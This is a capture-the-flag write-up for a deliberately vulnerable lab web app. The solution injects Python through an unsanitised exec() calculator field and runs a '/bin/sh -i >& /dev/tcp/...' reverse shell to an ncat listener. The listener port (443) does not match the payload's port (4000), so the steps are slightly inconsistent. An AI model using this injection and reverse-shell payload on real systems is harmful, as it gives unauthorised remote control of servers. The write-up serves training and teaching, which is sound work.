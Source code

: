 # clays-magic-funhouse-ctf Writeup

## Challenge Information

Link: https://github.com/claythess/CTF_4770

Difficulty: Easy/Medium

Category/Categories: Remote code injection/Reverse Shell

Author(s): Clay Hess

Description:

```
Participants will need to find a way to discover the website pages, inject code into a vulnerable prompt, and setup a remote shell 
to discover the flag on the filesystem.
```

Hint(s):

- `Visit the robots.txt page to get a list of sites`
- `The calculator page is vulnerable, how does it perform calculations? How can code be injected into the prompt?`
- `0; import os`
- `Use ncat to start a reverse shell`


## Solution

1. Goto CTF URL, for solution purposes let's say 127.0.0.1:5000, but it will be different when it's actually ran.
2. Navigate to 127.0.0.1:5000/robots.txt. This will itemize the pages on the website. Go through each page.
3. The calculator page is the vulnerable page. The input is ran through the exec() function without sanatization
4. Type "0;import os" in the textbox and submit.
5. In a terminal, determine your ip, i'll use 10.0.0.1 but of course it will be something different.
6. Listen for a remote connection
```
sudo ncat -nvlp 443
[sudo] password for claythess: 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```
7. On the calculator textbox, run 
```
0;os.system('/bin/bash -c "/bin/sh -i >& /dev/tcp/10.0.0.1/4000 0>&1"')"
```
8. This will connect to your remote shell listener in your terminal instance
9. ls, and cat flag.txt to find the flag

Flag: 
```
I want to have time to look for my children, and see how many of them I can find. 
Maybe I shall find them among the dead. 
Hear me, my Chiefs! I am tired; my heart is sick and sad. 
From where the sun now stands I will fight no more forever.
```

